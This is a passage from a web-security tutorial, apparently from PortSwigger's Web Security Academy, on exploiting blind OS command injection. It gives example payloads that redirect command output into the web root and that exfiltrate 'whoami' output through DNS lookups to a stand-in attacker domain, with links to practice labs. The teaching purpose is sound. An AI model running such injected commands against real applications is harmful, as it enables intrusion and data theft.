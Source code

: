 


### Exploiting blind OS command injection by redirecting output

You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:

```
& whoami > /var/www/static/whoami.txt &
```

The `>` character sends the output from the `whoami` command to the specified file. You can then use the browser to fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file, and view the output from the injected command.

**LAB**

[Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)



### Exploiting blind OS command injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:

```
& nslookup kgji2ohoyw.web-attacker.com &
```

This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

**LAB**

[Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)



The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command:

```
wwwuser.kgji2ohoyw.web-attacker.com
```

**LAB**
